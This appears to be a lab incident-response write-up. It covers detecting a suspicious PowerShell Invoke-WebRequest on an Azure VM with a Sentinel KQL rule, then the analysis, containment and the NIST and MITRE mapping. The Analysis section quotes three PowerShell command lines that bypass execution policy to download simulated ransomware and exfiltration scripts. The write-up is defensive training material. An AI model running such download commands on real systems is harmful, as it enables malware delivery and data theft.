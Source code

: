 # 🧯  PowerShell-Suspicious-Web-Request-on-Azure-VM

## 🧩 Scenario Overview
A suspicious use of PowerShell’s Invoke-WebRequest was detected on an Azure virtual machine (LabWill-vm-mde). The event triggered an alert in Microsoft Sentinel, indicating a potential malware infection via script downloads.

This investigation was conducted in alignment with the **NIST SP 800-61 Incident Response Framework** and relevant **MITRE ATT&CK TTPs**.

## 🎯 Objective
Detect, analyze, contain, and mitigate malicious PowerShell script activity using:
- **Microsoft Sentinel (SIEM)**
- **Defender for Endpoint (MDE)**
- **NIST 800-61 Lifecycle**
- **MITRE ATT&CK techniques**

## 📌 Phase 1: Preparation — Create Alert Rule on Sentinel
A Scheduled Query Rule was created in Microsoft Sentinel to detect when PowerShell is used with Invoke-WebRequest:

```kusto
let TargetDevice = "labwill-vm-mde";
DeviceProcessEvents
| where DeviceName == TargetDevice 
| where FileName == "powershell.exe"
| where InitiatingProcessCommandLine contains "Invoke-WebRequest"
| order by TimeGenerated
```
![KQL results](https://github.com/user-attachments/assets/da48fe2c-2d22-4050-8b09-c8e1ce9ec615)

---

## ⚠️ Phase 2: Detection - Incident Triggered
- **Alert Title**: `LabWill-PowerShell Suspicious Web Request`
- **Target Device**: `LabWill-vm-mde`
- **Process Detected**: `powershell.exe`
- **Impact**: Download of 3 scripts via 3 separate commands
- 
Once the alert rule triggered, Microsoft Sentinel automatically generated an incident and produced an investigation map based on the detected activity.
![MS Sentinel Incident mapping](https://github.com/user-attachments/assets/6beb3aa2-ad04-4c68-bacd-e970e96b09ee)

---

## 🕵️ Phase 3: Analysis
🔍 PowerShell Commands Identified

```kusto
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../eicar.ps1 -OutFile C:\programdata\eicar.ps1
```

**User Interview**: The user reported attempting to install a free piece of software. A black screen briefly appeared, then nothing else happened.

✅ Execution Confirmation (via MDE)
Verified that the scripts were executed using the query below:

```kusto
let TargetHostname = "labwill-vm-mde";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| summarize Count = count() by AccountName, DeviceName, FileName, ProcessCommandLine
```
---

## 🧪 Reverse Engineering: Script Summaries
Scripts were analyzed by the malware reverse engineering team. Here are their one-liners:

| Script Name             | Function                                                                                                                       |
| ----------------------- | ------------------------------------------------------------------------------------------------------------------------------ |
| `📄 pwncrypt.ps1`       | Simulates ransomware: encrypts fake data on the user's desktop, drops ransom notes demanding Bitcoin.                          |
| `📄 exfiltratedata.ps1` | Generates fake employee data, compresses it, and exfiltrates to an Azure Blob Storage container.                               |
| `📄 eicar.ps1`          | Deploys the standard to simulate malware detection.                                                                            |

---

## 🧯 Phase 4: Containment, Eradication & Recovery

| Action        | Details                                               |
| ------------- | ----------------------------------------------------- |
| 🛡️ Isolation | Device isolated using Microsoft Defender for Endpoint |
| 🧼 Scan       | Full anti-malware scan completed                      |
| ✅ Recovery    | Machine released from isolation after clean scan      |

---

## 📘 Phase 5: Post-Incident Actions
- 🧠 The affected user was enrolled in additional cybersecurity awareness training, with more frequent sessions.
- 🔒 Implemented policy to restrict PowerShell usage to essential personnel only.

---

## 🧠 Framework Alignment
## ✅ NIST 800-61 Phases

| Phase                         | Action Taken                                       |
| ----------------------------- | -------------------------------------------------- |
| **Preparation**               | Created Sentinel alert rule                        |
| **Detection & Analysis**      | Investigated PowerShell commands and user behavior |
| **Containment & Eradication** | Isolated and cleaned the system                    |
| **Recovery**                  | Verified no further threat before un-isolating     |
| **Post-Incident Activity**    | Policy and training improvements                   |

## 🎯 MITRE ATT&CK Techniques

| ID          | Name                                           |
| ----------- | ---------------------------------------------- |
| `T1059`     | Command and Scripting Interpreter (PowerShell) |
| `T1105`     | Ingress Tool Transfer (script download)        |
| `T1567.002` | Exfiltration Over Web Service: Cloud Storage   |

---

## Created By:
- **Author Name**: Tinan Makadjibeye  
- **Author Contact**: [LinkedIn profile](https://www.linkedin.com/in/makadjibeye-tinan)  
- **Date**: June 2025
  
---
